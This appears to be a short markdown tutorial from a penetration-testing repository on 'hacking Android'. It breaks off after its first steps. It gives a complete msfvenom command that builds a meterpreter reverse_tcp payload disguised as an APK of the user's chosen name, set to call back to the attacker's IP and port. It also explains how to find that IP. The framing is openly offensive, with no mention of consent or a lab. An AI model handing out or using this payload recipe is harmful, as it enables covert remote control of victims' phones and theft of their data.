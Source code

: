after [Installing Metasploit](https://github.com/Muhammad-Mirab/Peneterator-Panter/blob/master/Insatlling%20Metasploit.md) now you are able to hack some devices like Android,Windows etc. and today we're going to show you how can you Hack Android

so at the first we need root permission then we have to build a payload for android!

`msfvenom -p android/meterpreter/reverse_tcp LHOST=<your ip address> LPORT=4444 R > <the name that you wanna choose for your application>.apk`

![payload for android](https://cdn1.imggmi.com/uploads/2019/10/28/0cd4ae12e138046ae9ceac05f553381e-full.png)

you can find your ip address by executing `ifconfig`:

![ifconfig](https://cdn1.imggmi.com/uploads/2019/10/28/dd2c5976eb3908daf26c3418ab1063d0-full.png)
